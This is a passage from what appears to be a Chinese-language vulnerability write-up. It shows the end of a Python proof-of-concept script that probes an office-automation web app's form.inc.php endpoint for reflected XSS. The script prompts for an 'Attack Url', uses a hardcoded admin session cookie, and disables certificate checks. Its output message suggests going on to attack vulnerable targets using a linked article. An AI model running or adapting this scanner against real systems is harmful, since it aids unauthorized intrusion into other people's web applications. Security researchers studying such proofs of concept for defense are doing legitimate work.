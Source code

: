 ```python
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki,存在XSS漏洞, 可参考文章写的利用版本进一步攻击 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31"
    POC_1(target_url, Cookie)
```

![image-20220209111615822](/images/202202091116959.png)

## 参考文章

https://paper.seebug.org/1499/

